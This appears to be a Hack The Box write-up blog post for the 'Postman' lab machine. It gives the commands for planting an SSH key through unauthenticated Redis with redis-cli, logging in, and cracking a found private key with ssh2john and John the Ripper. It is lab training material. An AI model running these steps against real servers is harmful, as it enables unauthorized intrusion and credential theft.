 ```yaml
---
layout: post
title: Postman
category: HTB
tags: [HTB, Redis, Metasploit]
---
```


![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/card.PNG "Postman")

Starting with nmap we can see some valuable output.

**-p-** to scan all 65535 ports and **-sV** for standard service detection:

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/nmap.png "Nmap")

We are most likely going to interact with SSH since the port is open. 💁‍♂️

I tried couple exploits for Webmin but apparently they are not working without valid credentials.

After poking Redis service for a while I came up to a great guide/cheatsheet for pentesting Redis: <https://book.hacktricks.xyz/pentesting/6379-pentesting-redis>

> Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. Several times redis will be configured to be accessible anonymously. In this case you won't need to use any username and password.

Sounds great! So let's abuse that and follow the guide:

Install redis-tools: `sudo apt-get install redis-tools` and to interact with Redis: `redis-cli -h <IP>`

1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`
2. Write the public key to a file: `(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt`
3. Import the file into redis: `cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit`
4. Save the public key to the **authorized_keys** file on redis server:

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/redis.png "Redis")

It works! We can ssh to redis server with the private key: `ssh -i id_rsa redis@10.10.10.160`

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/ssh.png "SSH")

SSH as "redis" doesn't give you the user flag so we have to enumerate more.. 

SSH Private key can be found under /opt/ and it belongs to user "Matt"

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/id_rsa.png "id_rsa.bak")

Let's try to bruteforce that with john using rockyou. But first you have to convert the key to john format. I prefer using ssh2john.py <https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py>

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/ssh2john.png "john")

Well that was pretty easy.. Let's switch user to Matt..

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/user.png "matt")

